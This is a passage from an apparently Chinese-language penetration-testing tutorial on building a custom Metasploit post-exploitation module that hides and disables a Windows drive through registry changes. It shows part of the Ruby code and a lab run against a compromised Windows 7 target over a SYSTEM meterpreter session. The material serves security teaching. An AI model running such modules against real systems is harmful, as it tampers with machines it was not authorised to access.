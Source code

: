```ruby
    end
    
    # this is just the rule on Windows for the driver_names
    def drive_string(drive)
        case drive
        when 'A'
            return 1
        when 'B'
            return 2
        when 'C'
            return 4
        when 'D'
            return 8
        when 'E'
            return 16
        end
    end
end
```

需要注意的地方其实就是：

```ruby
# This is the default view. It reflects what the remote process would see
# natively. So, if you are using a remote 32-bit meterpreter session, you
# will see 32-bit registry keys and values.
REGISTRY_VIEW_NATIVE = 0

# Access 32-bit registry keys and values regardless of whether the session is
# 32 or 64-bit.
REGISTRY_VIEW_32_BIT = 1

# Access 64-bit registry keys and values regardless of whether the session is
# 32 or 64-bit.
REGISTRY_VIEW_64_BIT = 2
```

测试：

我们使用上一章渗透测试中用到的Windows 7靶机；我们已经取得了其上的`system`权限的meterpreter：

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

之后就是一波操作猛如虎：

```
msf post(windows/manage/my_disable_drives) > set SESSION 2
SESSION => 2
msf post(windows/manage/my_disable_drives) > set DriveName E
DriveName => E
msf post(windows/manage/my_disable_drives) > exploit

[!] SESSION may not be compatible with this module.
[+] Key exists, skipping and creating values.
[+] Hiding drive
[+] Restricting access to the drive
[+] E Drive disabled
[*] Post module execution completed
```

